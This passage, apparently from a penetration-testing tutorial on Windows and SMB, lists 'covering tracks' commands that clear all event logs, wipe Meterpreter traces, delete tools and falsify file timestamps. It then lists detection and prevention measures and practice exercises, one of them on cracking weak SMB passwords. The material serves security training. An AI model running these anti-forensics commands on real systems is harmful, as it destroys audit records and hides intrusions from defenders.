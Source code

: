 ## 🧹 Phase 6: Covering Tracks

### Log Manipulation

```bash
# Clear event logs
wevtutil el | foreach {wevtutil cl "$_"}

# Meterpreter log clearing
clearev
```

### File System Cleanup

```bash
# Remove tools and scripts
del /f /q C:\tools\*
rm -f /tmp/meterpreter.*

# Timestamp manipulation
timestomp file.txt -z "01/01/2020 12:00:00"
```

## 🛡️ Defensive Countermeasures

### Detection Techniques

**Monitor for:**
- Unusual SMB traffic patterns
- Multiple failed login attempts
- New scheduled tasks/services
- Unauthorized registry modifications
- Suspicious process creation

### Prevention Strategies

**Implement:**
- Regular patch management
- Strong password policies
- Network segmentation
- Application whitelisting
- Proper logging and monitoring

## 🧪 Practice Exercises

### Exercise 1: Basic Enumeration
**Objective:** Enumerate SMB shares and users on target

### Exercise 2: Password Attack
**Objective:** Crack weak SMB passwords
